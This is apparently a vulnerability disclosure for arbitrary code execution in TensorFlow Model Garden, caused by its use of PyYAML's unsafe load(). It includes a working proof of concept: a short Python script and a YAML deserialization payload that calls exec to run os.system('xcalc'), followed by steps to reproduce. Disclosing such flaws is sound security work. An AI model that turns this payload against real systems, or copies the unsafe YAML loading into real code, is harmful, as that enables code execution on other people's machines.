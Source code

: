 # Description
**Arbitrary Code Excecution** in Tensorflow/Models.The TensorFlow Model Garden is a repository with a number of different implementations of state-of-the-art (SOTA) models and modeling solutions for TensorFlow users. We aim to demonstrate the best practices for modeling so that TensorFlow users can take full advantage of TensorFlow for their research and product development
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **pyyaml**
# Exploit code
**Python File**
```python
import params_dict
exploit = params_dict.read_yaml_to_params_dict('exploit.yml')
print(exploit)
```
**YAML File**
```yml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
```
# POC
* place the exploit codes **models/official/modeling/hyperparams**
* Run the python code 

![](https://cdn.discordapp.com/attachments/749019614352244777/784018333079044117/Screenshot_from_2020-12-03_16-50-42.png)
